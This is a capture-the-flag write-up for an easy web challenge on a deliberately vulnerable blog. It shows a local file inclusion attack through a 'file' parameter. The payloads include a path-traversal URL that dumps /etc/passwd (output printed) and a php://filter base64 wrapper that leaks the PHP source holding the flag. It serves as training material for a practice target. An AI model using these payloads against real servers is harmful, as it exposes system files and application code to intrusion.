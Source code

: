 # EZ CTF

## Web

### I made a blog!

**Difficulty:** Easy

**Statement:** Did you check out my blog posts? 

***

Browsing the blog, we can see that each article is passed as an argument to the `?file=` parameter.

So I decide to try to exploit LFI to retrieve files stored on the web server.

I start by retrieving the value of the `/etc/passwd` file to test if the server is vulnerable:

```
http://ez.ctf.cafe:9999/blog-posts.php?file=../../../etc/passwd
```

```shell
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
```

Then, I try to display the content of the **robots.txt** file:

```
http://ez.ctf.cafe:9999/blog-posts.php?file=robots.txt
```

```
User-agent: *
Disallow: /flag.php
```

With the robots.txt file, I now know that there is a **flag.php** file.

But when I try to display the content of the file, there is only the sentence: `How do you filter your coffee?`

So I will use PHP wrappers to get the content of the **flag.php** file in base64 :

```
http://ez.ctf.cafe:9999/blog-posts.php?file=php://filter/convert.base64-encode/resource=flag.php
```

I get the value: `PD9waHAKCWVjaG8gJ0hvdyBkbyB5b3UgZmlsdGVyIHlvdXIgY29mZmVlPyc7ICAgIAoJLy8gRVotQ1RGe0xGSV8xU18zWn0KPz4K`

After decoding the string:

```
<?php
    echo 'How do you filter your coffee?';    
    // EZ-CTF{LFI_1S_3Z}
?>
```

Flag: EZ-CTF{LFI_1S_3Z}

